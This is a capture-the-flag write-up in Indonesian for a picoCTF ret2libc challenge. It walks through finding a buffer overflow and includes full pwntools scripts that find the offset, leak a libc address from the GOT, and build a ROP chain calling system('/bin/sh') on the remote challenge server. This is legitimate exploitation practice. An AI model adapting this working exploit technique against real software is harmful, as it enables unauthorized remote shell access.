 # Write Up Here a Libc

Step pertama yang saya coba adalah dengan menjalankan program dengan connect ke remote server yang disediakan. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/14bdca32-f80e-4890-bba7-7003b082a89b">
</div>
</br>

Dari foto di atas, saya mengetahui bahwa program ini merubah input text yang dimasukkan oleh user menjadi uppercase di huruf yang ganjil dan lowercase di huruf yang genap.

Lalu, saya mencoba untuk membuka program dengan Ghidra. Pada fungsi **main**, saya mengetahui bahwa dia memanggil fungsi **do_stuff()** yang disimpan dalam do while.

<div align="center">
  <img src="https://github.com/user-attachments/assets/95b39820-4de7-47ac-b831-de0a515656be">
</div>
</br>

Berikut adalah fungsi **do_stuff()**:

<div align="center">
  <img src="https://github.com/user-attachments/assets/b38a0f05-93f1-4229-a819-50d661c9cafd">
</div>
</br>

Berdasarkan decompiled code fungsi **do_stuff()**, ada kemungkinan buffer overflow pada fungsi scanf pertama yang ini adalah input dari user dengan buffer 112 dari local_88. Lalu, pada for loop, huruf yang di convert_case hanya sampai < 100.

Saat saya mencoba input string random untuk mencoba buffer overflow, terjadi segmentation fault.

<div align="center">
  <img src="Screenshot 2024-11-28 021056](https://github.com/user-attachments/assets/c01e2b64-54ad-4c78-b61f-fb9b7ab44a79">
</div>
</br>

Selanjutnya saya mencoba untuk menjalankan di gdb dengan cara yang sama dengan foto di atas. Awalnya saya bingung karena sudah lebih banyak dari buffer (112) tapi nilai di rip belum berubah.

<div align="center">
  <img src="https://github.com/user-attachments/assets/e50750d4-2653-4911-b511-e9df98805054">
</div>
</br>

Karena saya skill issue dan bingung kenapa saat saya menggunakan **gdb gef** tidak berubah juga rip nya (mungkin payload nya salah atau kurang panjang) dan tidak menemukan offset, saya mencari write up di Youtube dan meminta bantuan ChatGPT. Berdasarkan GPT dan video di Youtube, saya akhirnya menggunakan **pwntools cyclic** untuk menemukan offset dari buffer overflow yang ingin dilakukan. Berikut code nya:

```python
from pwn import *

binary = './vuln'
elf = ELF(binary)
context.binary = binary

p = process(binary)

payload = cyclic(200)
p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!', payload)

p.wait()
core = p.corefile

offset = cyclic_find(core.read(core.rsp, 4))
log.info(f"Offset found: {offset}")
```

Saya menjalankan scriptnya di kali linux karena di windows ternyata error dan harus di linux. Ini offsetnya:

<div align="center">
  <img src="https://github.com/user-attachments/assets/03b0e75b-3745-46fc-b81d-87cd27fa54e3">
</div>
</br>

Note: Saya ingin jujur ko, di step yang akan dijelaskan selanjutnya, saya mengikuti bantuan ChatGPT terutama dalam pembuatan script.

Selanjutnya, setelah mengetahui offset, saya mencari address dari fungsi-fungsi yang ada di libc. Tujuan akhir alamat yang ingin diambil adalah alamat fungsi system. Selain fungsi, string /bin/sh juga saya cari untuk menjalankan shell di remote server.

Saya dengan bantuan ChatGPT membuat script untuk eksploitasi.

```python
from pwn import *

binary = './vuln_patched'  # Nama binary
libc_path = './libc.so.6'  # Nama file libc
elf = ELF(binary)
libc = ELF(libc_path)

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

offset = 136

host = 'mercury.picoctf.net'
port = 49464

def leak_libc_address(proc, func_got):
    log.info(f"Leaking {func_got} address...")
    rop = ROP(elf)
    rop.call(puts_plt, [func_got])  # Cetak alamat fungsi di GOT
    rop.call(main_addr)  # Kembali ke fungsi main untuk eksploitasi ulang
    
    payload = flat({offset: rop.chain()})
    proc.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload)
    leaked_address = u64(proc.recvline().strip().ljust(8, b'\x00'))
    log.success(f"Leaked {func_got} address: {hex(leaked_address)}")
    return leaked_address

def exploit(proc):
    # Leak libc puts address
    libc_puts = leak_libc_address(proc, puts_got)

    # Hitung base address libc
    libc_base = libc_puts - libc.symbols['puts']
    log.success(f"Libc base address: {hex(libc_base)}")

    # Hitung alamat "/bin/sh" dan system
    system_addr = libc_base + libc.symbols['system']
    bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

    log.info(f"System address: {hex(system_addr)}")
    log.info(f"/bin/sh address: {hex(bin_sh_addr)}")

    # ROP chain untuk mendapatkan shell
    rop = ROP(elf)
    rop.call(system_addr, [bin_sh_addr])

    payload = flat({offset: rop.chain()})
    proc.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload)

    # Berikan akses interaktif
    proc.interactive()

if __name__ == "__main__":
    context.binary = elf
    p = remote(host, port)
    exploit(p)
```








